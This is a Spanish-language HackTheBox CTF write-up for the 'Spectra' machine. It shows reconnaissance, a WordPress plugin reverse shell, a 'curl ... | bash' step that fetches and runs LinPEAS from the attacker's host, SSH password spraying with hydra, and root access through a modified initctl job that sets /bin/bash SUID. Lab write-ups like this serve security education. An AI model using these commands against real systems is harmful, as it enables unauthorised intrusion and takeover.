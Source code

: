 ```yaml
---
title: HackTheBox - Spectra
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Wordpress', 'Binary Abusing']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Spectra/logo.jpeg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Spectra Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, Wordpress, Binary Abusing**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Spectra/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Spectra/02-versions.png)

> Añadimos el host `spectra.htb` en el fichero /etc/hosts
{: .prompt-info }

c. Ahora, haremos un fuzzing de directorios 

```bash
❯ wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  http://spectra.htb/FUZZ/

<SNIP>
000000063:   200        346 L    1460 W     25940 Ch    "main" 
000001458:   200        26 L     111 W      2514 Ch     "testing"
```

* Al visitar este directorio, tendremos la capacidad de **directory listing**, aquí veremos un fichero **wp-config.php.save** y si vemos su código fuente encontramos credenciales. 

    ```php
    <SNIP>
    define( 'DB_PASSWORD', 'devteam01' );
    ```

* En el directorio **/main** encontramos un Wordpress con un usuario

![](/assets/images/HTB/Easy/Spectra/03-user.png)

* Nos autenticamos con este usuario y la contraseña, previamente encontrada, en Wordpress

d. Para entablarnos una reverse shell instalamos un nuevo plugin 

```bash
❯ cat backup.php

/**
* Plugin Name: Backup
* Plugin URI:
* Description: Backup
* Version: 1.0
* Author: Testing
* Author URI: http://www.testing.com
*/

# Copiamos el contenido de esta reverse shell
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

❯ zip backup.zip backup.php
```

* Ahora, instalamos este plugin en Wordpress y luego de este paso, damos clic en 'Activar Plugin'

    ![](/assets/images/HTB/Easy/Spectra/04-add.png)

* Con todos los pasos anteriores ya tendremos una reverse shell

    ```bash
    ❯ nc -lvnp 4444
    $ whoami
    nginx
    ```

### Escalada de Privilegios 💹

a. Subiremos `LinPEAS` para descubrir ficheros de configuración o alguna forma de escalar privilegios

```bash
❯ ls
linpeas.sh
❯ python -m http.server 80
----------------------------------------
nginx@spectra /tmp $ curl 10.10.14.18/linpeas.sh | bash

<SNIP>
╔══════════╣ Analyzing Autologin Files (limit 70)
drwxr-xr-x 2 root root 4096 Feb  3  2021 /etc/autologin
```

* Si vamos a este directorio encontraremos una contraseña

    ```bash
    nginx@spectra /etc/autologin $ cat passwd 
    SummerHereWeCome!!
    ```

* Tenemos varios usuarios en el sistema, así que haremos fuerza bruta con hydra

    ```bash
    ❯ cat users
    chronos
    katie
    root
    user
    ❯ hydra -L users -p 'SummerHereWeCome!!' ssh://10.10.10.229 -t 4
    [22][ssh] host: 10.10.10.229   login: katie   password: SummerHereWeCome!!
    ```

b. Nos autenticamos en el servicio SSH y listamos nuestros privilegios a nivel de sudoers

```bash
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

> `/sbin/initctl` se usa para gestionar servicios, eventos y su configuración. Esta configuración es almacenada en **/etc/init**
{: .prompt-info }

* Listamos los servicio disponibles

    ```bash
    katie@spectra ~ $ ls /etc/init
    activate_date.conf       cryptohome-update-userdataauth.conf   ippusb.conf        pre-shutdown.conf    test.conf
    anomaly-detector.conf    cryptohomed-client.conf               iptables.conf      pre-startup.conf     test2.conf
    ```

* Modificamos alguno de estos para ejecutar un comando al iniciar un servicio

    ```bash
    katie@spectra ~ $ cat /etc/init/test2.conf

    <SNIP>
    script
        chmod +s /bin/bash
    end script
    ```

* Por último, iniciamos este servicio y podremos acceder como root

    ```bash
    katie@spectra ~ $ sudo /sbin/initctl start test2                                    
    test2 start/running, process 18269
    katie@spectra ~ $ ls -la /bin/bash   
    -rwsr-sr-x 1 root root 551984 Dec 22  2020 /bin/bash
    katie@spectra ~ $ bash -p            
    bash-4.3# whoami
    root
    ```